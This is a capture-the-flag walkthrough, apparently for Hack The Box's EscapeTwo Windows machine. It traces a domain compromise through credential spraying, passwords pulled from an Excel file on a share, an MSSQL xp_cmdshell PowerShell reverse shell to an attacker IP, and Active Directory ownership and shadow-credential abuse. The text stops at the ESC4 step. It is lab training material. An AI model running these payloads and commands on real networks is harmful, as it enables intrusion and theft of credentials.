

# EscapeTwo

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 15/06/2025

## Overview

`EscapeTwo` is an easy difficulty Windows machine designed around a complete domain compromise scenario, where credentials for a low-privileged user are provided. We leverage these credentials to access a file share containing a corrupted Excel document. By modifying its byte structure, we extract credentials. These are then sprayed across the domain, revealing valid credentials for a user with access to `MSSQL`, granting us initial access. System enumeration reveals `SQL` credentials, which are sprayed to obtain `WinRM` access. Further domain analysis shows the user has write owner rights over an account managing `ADCS`. This is used to enumerate `ADCS`, revealing a misconfiguration in Active Directory Certificate Services. Exploiting this misconfiguration allows us to retrieve the `Administrator` account hash, ultimately leading to complete domain compromise. 



---

## Phase 1: Reconnaissance

### Network Discovery

```bash
nmap -sC -sV -T4 10.10.11.51 -oA nmap/escapetwo
```

| Port | Service      | Version                                      |
| ---- | ------------ | -------------------------------------------- |
| 53   | domain       | Simple DNS Plus                              |
| 88   | kerberos-sec | Microsoft Windows Kerberos                   |
| 135  | msrpc        | Microsoft Windows RPC                        |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                |
| 389  | ldap         | Microsoft Windows Active Directory LDAP      |
| 445  | microsoft-ds | N/A                                          |
| 464  | kpasswd5     | N/A                                          |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0          |
| 636  | ldap         | Microsoft Windows Active Directory LDAP      |
| 1433 | ms-sql-s     | Microsoft SQL Server 2019 15.00.2000.00; RTM |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP      |
| 3269 | ldap         | Microsoft Windows Active Directory LDAP      |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                  |

### DNS Configuration

```bash
nxc smb '10.10.11.51' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

...
10.10.11.51     DC01.sequel.htb DC01
```

### Initial Access Credentials

I saved the assumed breach credentials to files
```bash
echo 'rose' > users.txt
echo 'KxEPkKe6R8su' > creds.txt
```

### User Discovery

LDAP enumeration built comprehensive user list for password spraying:
```bash
nxc ldap 'DC01' -u 'rose' -p creds.txt -d 'sequel.htb' --users | awk '{print $5}' | grep -vE '[\[|^-]' > users.txt

Administrator
Guest
krbtgt
michael
ryan
oscar
sql_svc
rose
ca_svc
```

### Share Enumeration

Also used the credentials to look for accessible file shares.
```bash
nxc smb 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' --shares 

...
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ            
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.11.51     445    DC01             Users           READ  
```


### File System Analysis

SMB share spidering revealed a share called `Accounting Department`.
```bash
nxc smb 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' -M spider_plus -o DOWNLOAD_FLAG=True
```

```bash
cp -r /home/wither/.nxc/modules/nxc_spider_plus/10.10.11.51 .
```

### Credential Extraction from Excel Files

The share contained two files, `accounting_2024.xlsx` and `accounts.xlsx`. I unzipped and searched `accounts.xlsx` to find a list of credentials in the `xl/sharedStrings.xml` file.

```bash
ls
accounting_2024.xlsx  accounts.xlsx

unzip accounts.xlsx                                                                                                                                             grep -r "Password" > sharedstrings.txt                                                                  
xl/sharedStrings.xml:<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24"><si><t xml:space="preserve">First Name</t></si><si><t xml:space="preserve">Last Name</t></si><si><t xml:space="preserve">Email</t></si><si><t xml:space="preserve">Username</t></si><si><t xml:space="preserve">Password</t></si><si><t xml:space="preserve">Angela</t></si><si><t xml:space="preserve">Martin</t></si><si><t xml:space="preserve">angela@sequel.htb</t></si><si><t xml:space="preserve">angela</t></si><si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si><si><t xml:space="preserve">Oscar</t></si><si><t xml:space="preserve">Martinez</t></si><si><t xml:space="preserve">oscar@sequel.htb</t></si><si><t xml:space="preserve">oscar</t></si><si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si><si><t xml:space="preserve">Kevin</t></si><si><t xml:space="preserve">Malone</t></si><si><t xml:space="preserve">kevin@sequel.htb</t></si><si><t xml:space="preserve">kevin</t></si><si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si><si><t xml:space="preserve">NULL</t></si><si><t xml:space="preserve">sa@sequel.htb</t></si><si><t xml:space="preserve">sa</t></si><si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si></sst>
```

I extracted the passwords from the XML structure and added them to the password list `creds.txt`.
```bash
grep -oP '<t xml:space="preserve">.*?</t>' sharedstrings.txt | sed -E -n '10p;15p;20p;24p' | sed -E 's/<\/?t[^>]*>//g' >> creds.txt 

cat creds.txt 

KxEPkKe6R8su
0fwz7Q4mSpurIt99
86LxLBMgEWaKUnBG
Md9Wlq1E5bZnVDVo
MSSQLP@ssw0rd!
```

Same with the `users.txt`
```bash
grep -oP '<t xml:space="preserve">.*?</t>' sharedstrings.txt | sed -E -n '9p;14p;19p;23p' | sed -E 's/<\/?t[^>]*>//g' >> users.txt 

cat users.txt  

Administrator
Guest
krbtgt
michael
ryan
oscar
sql_svc
rose
ca_svc
angela
kevin
sa
```

---

## Phase 2: Exploitation - Credential Access & Database Infiltration

### SQL Server Access

The `sa` service account provided local authentication to the MSSQL server:
```bash
echo 'sa' >> users.txt

nxc mssql 'DC01' -u users.txt  -p creds.txt --local-auth 

...
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

### Command Execution via SQL

From this, I leveraged the MSSQL server's `xp_cmdshell` functionality for remote code execution. I opened up a netcat listener:
```bash
nc -nvlp 9001
```

And sent a Powershell reverse shell.
```bash
nxc mssql 'DC01' -u 'sa'  -p 'MSSQLP@ssw0rd!' --local-auth -X '$LHOST = "10.10.14.17"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()'
```

### Additional Credential Discovery

In the shell, I found the MSSQL server configuration file `C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI`, which revealed another service account `sql_svc`'s credentials `WqSZAF6CysDQbGb3`:
```powershell
pwd
C:\SQL2019\ExpressAdv_ENU

more sql-Configuration.INI
...
SQLSVCACCOUNT="SEQUEL\sql_svc" SQLSVCPASSWORD="WqSZAF6CysDQbGb3" 
...
```

I added the password to the password list.
```bash
echo 'WqSZAF6CysDQbGb3' >> creds.txt
```

### Password Reuse Discovery

I sprayed for WinRM access again with the new password, which revealed credential reuse on the `ryan` account, who shared a password with `sql_svc`:
```bash
nxc winrm 'DC01' -u users.txt -p creds.txt -d 'sequel.htb' --continue-on-success

...
WINRM       10.10.11.51     5985   DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 (Pwn3d!)
...
```

The user flag was in `ryan`'s Desktop
```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> more ../Desktop/user.txt
```

---

## Phase 3: Privilege Escalation - Certificate Authority Abuse

### Domain Analysis

I used the remote shell to upload the BloodHound data collection tool "SharpHound"
```powershell
nxc mssql 'DC01' -u 'sa'  -p 'MSSQLP@ssw0rd!' --local-auth --put-file SharpHound.exe 'C:\Users\Public\SharpHound.exe'

...
MSSQL       10.10.11.51     1433   DC01             [*] Copy SharpHound.exe to C:\Users\Public\SharpHound.exe
MSSQL       10.10.11.51     1433   DC01             [*] Size is 1286656 bytes
MSSQL       10.10.11.51     1433   DC01             [+] File has been uploaded on the remote machine
```

And ran it to collect all data on the domain, to a file called `loot.zip`.
```powershell
pwd
C:\users\public

.\SharpHound.exe -c all --zipfilename loot.zip
```

I download the loot, and uploaded it to `BloodHound-CE.`
```powershell
nxc mssql 'DC01' -u 'sa'  -p 'MSSQLP@ssw0rd!' --local-auth --get-file 'C:\Users\Public\20250615120137_loot.zip' loot.zip

...
"C:\Users\Public\20250615120137_loot.zip" was downloaded to "loot.zip"
```

### WriteOwner Permission Abuse

BloodHound analysis via the "Outbound Object Control" attribute, revealed that `ryan` possessed `WriteOwner` permissions over `ca_svc`, a certificate services account:

![[Pasted image 20250615203243.png]]

This account is a member of the "Cert Publishers" group, 
![[Pasted image 20250615203401.png]]


```powershell
impacket-owneredit -action write -new-owner ryan -target ca_svc 10.10.11.51/ryan:WqSZAF6CysDQbGb3   
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
                                                                                                                                                                                             
wither@kali:~/CTF/HTB/EscapeTwo/files$ impacket-dacledit -action write -target ca_svc -principal ryan DC01.SEQUEL.HTB/ryan:WqSZAF6CysDQbGb3
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250615-223056.bak
[*] DACL modified successfully!
```

### Key Credential Link Manipulation

Ownership of `ca_svc` enabled certificate-based authentication through key credential modification:

```powershell
C:\Users\ryan\Documents> .\Whisker.exe add /target:ca_svc
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password 3emBDm8wUGJQagmv
[*] Searching for the target account
[*] Target user found: CN=Certification Authority,CN=Users,DC=sequel,DC=htb
[*] Generating certificate
[*] Certificate generaged
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 04b442ce-f557-4730-aead-23223cb85976
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:ca_svc /certificate:MIIJwAIBAzCCCXwGCSqGSIb3DQEHAaCCCW0EgglpMIIJZTCCBhYGCSqGSIb3DQEHAaCCBgcEggYDMIIF/zCCBfsGCyqGSIb3DQEMCgECoIIE/jCCBPowHAYKKoZIhvcNAQwBAzAOBAjEkpd2iMydDwICB9AEggTYtmv4AKG+tIV/w/0fZh691OU1khtkwYscks0RwI6A6wWTDs0IWqpMPbf+N/m9J9lVKvf0Gmo66t1x7kLVwfiy4PUEV47doyx/jJ91fjV46/cnDUv7jlb8o34R+J31Mt62YjGDDmDnWOnjoyJzcc/R6WIPx7pz7sriBfxQi872HEUd8t9cx+NO64He5C3/Fr3mI8ouTvppoA/qEndSl5QiFab4HdVI2iRYLu8X/MgoatlFutMkN5BsPCMuEp4yUMw8n18AH6juOynK7kl7fGUNPuWV3/gKwMLKIu+/++xctNHd8pg3CA9gpOCPpm34x5+MfCTPgnioIsQbbTmg3EXP9YiRkKXhJuzQZkNwPv1dD5xwg0a1DLbxUcf1kFMcKv3Zz5/IzuGqlqZlYEvkv0PkN1uvP6C67rl54fsFG12uAVruWQF43CXSoMsqTCwaGgWGd82V/oRh7pyHJc5nA6NnrsR0QqAzIU1flnDKsZvv2qekZg1j68rE52fAmAEqxjd7JUvU4WkVo7/lBChLpLGHrupiPbqrWfJV8n0g6dpy9L/e+0bqcy2NXvl6j0ujQn5/js1QF7w+2jABYupbioHZ68+ItKtVUWbavi45RjpJuAJq6sp8OLUhMVoi8pkUwcWW8D1647DbIlUwsQPsuaWiQHoscnckaKd0nG9t7g+IiU9DS6S9HRDkdlnpmAwxn3l2yykMP6TagO2qc/vT2XOOfUBui0T3Q5Sj8BJgz93YvrgqYh/5TGA/wnqUN+bYGwNlAIYgQ65VWCdABmeFJuj04QGPmFAfWGqzpqEd6WKMPMEminpe0daTwgA35gu5GUc4AComfVfmQ7vwm0ecuuXK/pPZlLICBwUVpEHL6xuho0Rn5+g6WWVk3L4kGZIuIJES/RJcd5cJfTHQ1jGFyTg0iZqQC370FP82+mnoVMs9vVril8HGsmiYN3bmm7zkHqerCRODomDWQ6Xe0jRjsE0RMrpOXf9zQAuQhRH7cvwpvj/2GIg1auxXlgfzQsYLHK71HK03LnS9RE3s5hW0websS4UA/8XKAiXrSE7NfDtvDAt3KCcMnwc1S3JqCVlHpCqG7QItu9DNKl5XDkXyOka6hebGcj5/fo/s898NWPxAkSqdd3NJ5YYB4ucOlkRyTbPsxINjo1ckaoTMxoPQcTemPZhhpzqA69So9u2XPUdHp/GPaYk+NRiBBLXh6J1n4npSPImgb3JBErMYe+0zW6iWIgUIx2OLVIqciGq+FgKhP6iE2Dm7YxkQISaFXfXibjRllK2bNYjdJPvdRY+ZF8KmYBe7Km7+dPRgyRyqFfUpT77UR39ZUH352HHPUhW8zk2tv1b6b3SqX5tmGqNZd53IhfH0UD5sj6veaUUhVljTqLeSYZC10uU6AzgeRAHL9xS4BzFUVRBNPyQyDBQ5ktoYulU02n2pc/dx0OeIiKDQLO4xpyHoRynTts6tWc8LRFGPzA4Aoe8e1PE7dyRyBK0afCNTuv5XQW/8KTpiIH60B9zuJSq1/LyehkICVBKmy6QdRzt3jGeL7JlDC+9gQurwg6b+PftKjAcq3uOXGrEb315o1kMAWmaqgDwsctlzuzX0sz5dmqnG3nL+aB2svenhX4wdsVkP223fCQjsI9QCQVRpLm80cPPFfzGB6TATBgkqhkiG9w0BCRUxBgQEAQAAADBXBgkqhkiG9w0BCRQxSh5IADYANgAxADUAMQA4AGIAMgAtADAAYwBjADcALQA0ADMAYQBmAC0AOQAwADkAMQAtADEAOAA0AGYANAA4ADYAOQBhADMAMQA4MHkGCSsGAQQBgjcRATFsHmoATQBpAGMAcgBvAHMAbwBmAHQAIABFAG4AaABhAG4AYwBlAGQAIABSAFMAQQAgAGEAbgBkACAAQQBFAFMAIABDAHIAeQBwAHQAbwBnAHIAYQBwAGgAaQBjACAAUAByAG8AdgBpAGQAZQByMIIDRwYJKoZIhvcNAQcGoIIDODCCAzQCAQAwggMtBgkqhkiG9w0BBwEwHAYKKoZIhvcNAQwBAzAOBAj7mVrsuR9TbAICB9CAggMAn1BJTSaEoJiK2a/K3d131dML3AFYaa/6eAna4W123EXK+ADjjCuJk9h6QV/nu6IOuZAlvonYJYt/Rhn/h9pkkH8x7Y7WwL8pVawN8kbH0IO9+Be7Ki2qzBk7BPGgFMvGoZ7zfHq7mKrtFwB3u/u55bkXtvEp2F0LJ0k7tH7SMvwo0ZcyRso71+wbszHcqdSrGpWrBRl7hR5LjbaaowI+lQtf4tuEiUfFFOM25GsdAyJ0kSMCcc2jI5hTyQjjkVc1aS3e9kX+4RbLsmaNXaEKZ8dQo2eq1LP3D3SOIdjPvHNiRm2hPpaVxmgQxzLuBiEWGu1a53PX30lM7TRUTdpA3haoZLXGV0GdqDLUwFbSfog2erBwJ8Kc3Q+uztonPt6EgcYsAEifRlH6eXfnffNcaLRijizIaJJaMMy/0+53ABM9D44UwO9poWfuX/qO885g/7fc9CuB28EBlRPrrv/a/8dEj0bvoNqH9WqHEHUO9jEndnoQEsQOSPOxyLKx5VcblxNnQBf5GpXEoV1l+0WADhBY0Y0HJAcu+sk5gBm13wVyhQn8ahfprps8JhIQUm+kN4RWPe22ADxcBB3gmKBsz6dO0PD8d+ee6ZH9Zs+5165pIuUedvgOkJS420dFi9CqXGfU7f2HIWPJlSlFbMO+a+Voz9AYCc/Db5WYKX1+2a007bXlZ0K+G3sY+obVtyfOOEiSb7vuFTJn6fzvLnL7Bd0GZOX7ji5gPSn3URPD0W3RMun8iKS/kXSNv92Y59MT4Bs+0Dgjnv70rA8OhfgN+ogKUSt0BANLIEzhZePpY3dn4OxoPgOC5hJ4govGnUHy2gZXig6EdxNo14T9j9lLjxDuIR+BEbNYrWji7ItsIpus0UxRSja10mOeYSp044lBdpIGq3+jrr2iZ/wsGBHdl0nAD8s3hva5eFKQDqOE+wy92bQ6VevTMqae1qLZ+7QSJpap6b5KpoGl+zPnJKsiUdyJLweBDjPslDyEkwaAYuAydabHmRZZlr13kwW8UtQTMDswHzAHBgUrDgMCGgQUy/cTvlTuvabfRLlNGUXuTlJi+18EFPxitPFkKCkp1+f5X5bduayLcBqqAgIH0A== /password:"3emBDm8wUGJQagmv" /domain:sequel.htb /dc:DC01.sequel.htb /getcredentials /show
*Evil-WinRM* PS C:\Users\ryan\Documents> .\Rubeus.exe asktgt /user:ca_svc /certificate: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 /password:"3emBDm8wUGJQagmv" /domain:sequel.htb /dc:DC01.sequel.htb /getcredentials /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=ca_svc
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\ca_svc'
[*] Using domain controller: ::1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

  ServiceName              :  krbtgt/sequel.htb
  ServiceRealm             :  SEQUEL.HTB
  UserName                 :  ca_svc (NT_PRINCIPAL)
  UserRealm                :  SEQUEL.HTB
  StartTime                :  6/15/2025 2:31:44 PM
  EndTime                  :  6/16/2025 12:31:44 AM
  RenewTill                :  6/22/2025 2:31:44 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  PIVolX8B4YWa8kE+Qqth8Q==
  ASREP (key)              :  F76ABFFAA8AAE4667B1874B012E5B1E1

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 3B181B914E7A9D5508EA1E20BC2B7FCE
```

### Certificate Template Vulnerability (ESC4)

Certificate services enumeration revealed vulnerable template with excessive permissions:

```bash
